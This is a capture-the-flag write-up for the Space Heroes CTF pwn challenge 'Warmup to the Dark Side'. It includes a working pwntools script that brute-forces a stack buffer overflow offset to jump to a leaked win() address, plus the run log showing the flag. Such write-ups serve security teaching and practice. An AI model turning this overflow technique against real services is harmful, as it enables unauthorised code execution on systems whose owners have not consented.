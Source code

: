 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- buffer-overflow
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: /asset/banner/banner-darkside.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<div class="box">
    Once you start down the dark path, forever will it dominate your destiny.<br>
    (And yes, the binary isn't included)<br>
    <code>nc 0.cloud.chals.io 30096</code><br>
    <b>Author</b>: v10l3nt
</div>

Let's run that `netcat` link to see what's going on:

```console
$ nc 0.cloud.chals.io 30096
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c
Jedi Mind tricks dont work on me >>> 
```

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

```py
from pwn import *
for i in range(32,128):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
```

Let's run this script on the server to see if we can get the flag:

```text
...
[*] Trying offset 37 for address 0x55f788f1120c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 38 for address 0x5631d523620c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 39 for address 0x55980d2d520c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 40 for address 0x55f0008b520c
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Jedi Mind tricks dont work on me >>> 
    shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>

